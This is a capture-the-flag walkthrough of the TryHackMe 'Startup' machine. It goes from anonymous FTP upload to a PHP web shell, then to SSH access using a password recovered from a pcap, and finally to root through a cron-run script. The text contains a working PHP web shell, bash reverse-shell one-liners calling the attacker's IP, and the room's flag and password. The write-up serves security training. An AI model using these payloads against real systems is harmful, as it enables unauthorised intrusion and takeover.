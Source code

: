 # INIT
This is an easy `linux` machine. 
I start by doing an `nmap` scan.
```
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ cat nmap/startup.nmap 
# Nmap 7.95 scan initiated Sat Aug 23 20:17:27 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oA nmap/startup 10.201.22.206
Nmap scan report for 10.201.22.206
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Aug 24 00:11 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.2.0.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 23 20:17:59 2025 -- 1 IP address (1 host up) scanned in 31.35 seconds
```

Here we have Anonymous ftp access. However the interesting part is the `/ftp` director has `rwx` permission for everyone! So that means, if we can find a way to execute files from this directory, we can get a reverse shell!

Doing a simple `gobuster` search, I find that there is `/files` endpoint that shows all the files/directories of the ftp root folder in the browser. So, this means we can "execute" or "access" a file via browser. 
So, let's put a `php` file and get a reverse shell!
``` 
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ cat shell.php        
<?php system($_GET['cmd']); ?>
```
The script executes the "command" it gets via the `cmd` variable. So, we open the below url in our browser, effectively executing the shell command and getting a reverse shell!
```
http://10.201.22.206/files/ftp/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.2.0.159%2F4444%200%3E%261%27
```

Remember to first open you local netcat connection: `rlwrap nc -nvlp 4444`.
# User flag
Now that I have the shell, I got to /tmp directory and run `linpeas.sh`. This gives me some interesting information such as the "odd" files found in root.
```
╔══════════╣ Unexpected in root
/vagrant
/recipe.txt
/vmlinuz.old
/vmlinuz
/incidents
/initrd.img
/initrd.img.old
```
One of these if `recipe.txt` which gives us our first flag! i.e. secret ingredient which is **LOVE**.

Moving on, I can only access the `/incidents` directory inside which I find a `pcapng`. So, I copy this to `/files/ftp` and download it on my local machine to analyze it with the help of Wireshark.
```
cp suspicious.pcapng /var/www/html/files/ftp/
```

Using Wireshark, I can see a lot of `tcp` streams, one of which has data on a "reverse shell", implying that this has been compromised before as well! Here, I find a password(`c4ntg3t3n0ughsp1c3`), which appear to be of the user `lennie`.
![[Pasted image 20250823234147.png]]

So, I go ahead an try to login as lennie via ssh and voila! we have the user flag!
```
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ ssh lennie@10.201.94.216
lennie@10.201.94.216's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.

Last login: Sun Aug 24 01:59:17 2025 from 10.2.0.159
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ 
```
# Privilege Escalation

First, let's beautify the shell a bit:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

There seems some more files in the home folder of `lennie`.
In the `scripts` folder, we see `phanner.sh`:
```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
It is essentially executing `/etc/print.sh` script. Checking this files permissions, we see it is owned by `lennie` and so we can edit it! Welp, in that case, we can simply ask this sh to give us a reverse shell and as the caller `planner.sh` is owned by root and hence run by root, we can get a root shell! Nice.
```bash
bash -c "bash -i >& /dev/tcp/10.2.0.159/4444 0>&1"
echo 'Done!'
```

I open `nc` on my local machine (`rlwrap nc -nvlp 4444`) and wait for the root to execute the script as part of its `cron` job.
We get the root shell and hence the flag!
```              
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.2.0.159] from (UNKNOWN) [10.201.94.216] 38774
bash: cannot set terminal process group (23921): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# 

root@startup:~# whoami
whoami
root
root@startup:~# ls
ls
root.txt
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12  2020 .
drwxr-xr-x 25 root root 4096 Aug 24 01:56 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12  2020 root.txt
drwx------  2 root root 4096 Nov 12  2020 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
root@startup:~# 
```

Congratulations 🎉😎!
Treat yourself to a glass of crisp God's nector!
